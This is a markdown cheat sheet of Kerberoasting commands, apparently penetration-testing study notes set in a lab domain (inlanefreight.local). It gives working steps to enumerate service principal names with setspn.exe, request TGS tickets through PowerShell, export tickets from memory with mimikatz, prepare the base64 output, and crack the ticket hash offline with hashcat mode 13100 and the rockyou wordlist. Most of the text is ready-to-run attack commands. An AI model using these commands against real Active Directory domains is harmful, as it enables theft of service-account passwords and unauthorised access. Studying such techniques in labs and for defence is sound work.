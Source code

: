 #### Crack the Ticket Offline with Hashcat
```cmd
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force
```
Attempts to crack the Kerberos (-m 13100) ticket hash (sqldev_tgs) using hashcat and a wordlist (rockyou.txt) from a Linux-based host.
#hashcat #tgs #tickets #passwordattacks  ^8d687d


### Windows - Manual Method

#### Enumerate SPNs with setspn.exe
```cmd
setspn.exe -Q */*
```
Enumerates SPNs w/ setspn binary in CMD shell
#kerberoasting #spn #serviceprincipalname #enumeration  ^5e1919

#### Requesting a Single TGS ticket
```PowerShell
Add-Type -AssemblyName System.IdentityModel
```

```PowerShell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
Requests TGS tickets for an account in the shell above and loads them into memory
#tgs #tickets #kerberoasting  ^f5d0eb

#### Retrieve All Tickets Using setspn.exe
```PowerShell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Retrieves all tickets in the domain
#tgs #tickets #kerberoasting 


### Extracting Tickets from Memory with Mimikatz

```cmd.exe
mimikatz # base64 /out:true
```
```cmd.exe
mimikatz # kerberos::list /export 
```
Displays tickets in base64 format, which can be decoded afterward  ^c4015f

#### Prepare the base64 blob for cracking
```Shell
echo "<base64 blob>" |  tr -d \\n
```
Displays the output in base64 for preparation to be placed in a .kirbi file
